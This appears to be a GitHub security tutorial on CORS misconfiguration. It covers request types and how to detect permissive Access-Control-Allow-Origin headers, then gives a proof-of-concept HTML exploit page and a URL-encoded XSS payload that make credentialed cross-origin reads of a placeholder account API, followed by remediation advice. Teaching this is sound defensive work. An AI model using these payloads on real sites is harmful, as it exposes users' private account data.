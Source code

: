 # CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.website.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.website.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.website.com 
```
🏁 The header is configured with `Access-Control-Allow-Origin: www.website.com` It means ***Only***✔️ `www.website.com` domain can access the resources.

🏴‍☠️ IF header is configured with a wildcard **`( * )`**. It means **Any domain**☢️  can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

🏴 IF the server does not allow a cross-origin request the you will get error⚠️ page

 ### 2. Preflighted requests

A CORS preflight request is a CORS request that checks to see if the CORS protocol is understood and a server is aware using specific methods and headers.

## Detect CORS misconfiguration     

Identify Response **Access-Control-Allow-Origin** Header 

1. CORS misconfiguration using wildcards such as (*)
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```
2. Origin with Other Domain.
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```
Web client sends a request to get a resource from a different domain, Consider the below Request


## POC - Exploite Code
1. cors.html is the exploit code to exploit misconfigured CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace **payload alert(document.domain)** 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  E.x: Access-Control-Allow-Origin: https://website.com

* Avoid whitelisting null `Access-Control-Allow-Origin: null`

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397

- https://www.moesif.com/blog/technical/cors/Authoritative-Guide-to-CORS-Cross-Origin-Resource-Sharing-for-REST-APIs/ 
